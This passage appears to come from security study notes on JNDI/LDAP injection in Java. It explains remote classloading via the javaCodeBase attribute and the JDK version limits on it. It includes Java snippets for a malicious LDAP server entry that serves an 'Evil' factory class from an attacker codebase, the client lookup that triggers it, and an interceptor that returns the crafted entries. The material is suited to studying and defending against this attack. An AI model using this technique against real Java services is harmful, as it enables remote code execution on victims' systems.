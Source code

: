 If the target class exists in client's class path, then the serialization process starts.

#### Referenceable objects, remote classloading via codebase

> [!NOTE] Restrictions
> The remote classloading functionality is only included in Oracle JDK. In OpenJDK, you will find there is even no source code about this functionality.
> After JDK8u191, JDK will check `trustURLCodebase` before requesting from codebase.
> The resolving codebase functionality is deprecated in JDK9 and deleted in JDK11.
> *(The code in this section are written with JDK7u21)*

Build a Referencable entry(combine with next section).
```java
Entry entry = new Entry(baseDN);  
entry.addAttribute("javaClassName", "xxx");  
entry.addAttribute("javaCodeBase", "http://127.0.0.1:8888/");  
entry.addAttribute("objectClass", "javaNamingReference");  
entry.addAttribute("javaFactory", Evil.class.getName());  
  
result.sendSearchEntry(entry);  
result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
```

When request the LDAP entry:
```java
ctx.lookup("ldap://0.0.0.0:2389/ref");
```
A http request will made to *codebase*, client will download and define the `Evil` class. Any static code block in `Evil` will be executed on client.


#### LDAP Interceptor
The `InMemoryOperationInterceptor` class can intercept the process either between receiving requests and reaching the LDAP server, or after processed by LDAP server and before sending result to client.
Its `processSearchResult()` method defines the action before replying to client. We can intercept all results from LDAP server and take easy to return a newly defined `Entry`.
Example:
```java
@Override  
public void processSearchResult(InMemoryInterceptedSearchResult result) {  
    String base = result.getRequest().getBaseDN();  
  
    System.out.println(String.format("Request: %s", base));  
  
    if (base.toLowerCase().startsWith("ser")) {  
        processSerializable(result);  
        return;    } else if (base.toLowerCase().startsWith("ref")) {  
        processReferencable(result);  
        return;    }  
  
    System.out.println(String.format("Request for %s fail", base));  
	result.sendSearchEntry(entry);
    result.setResult(new LDAPResult(2, ResultCode.NO_OPERATION));  
  
}
```


[^1]: [探索高版本 JDK 下 JNDI 漏洞的利用方法 - 跳跳糖](https://tttang.com/archive/1405/#toc_0x02-xxe-rce)
[^2]: [半自动化挖掘request实现多种中间件回显 | 回忆飘如雪](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
[^3]: [Java反序列化回显学习之Tomcat通用回显 - SecPulse.COM | 安全脉搏](https://www.secpulse.com/archives/200930.html)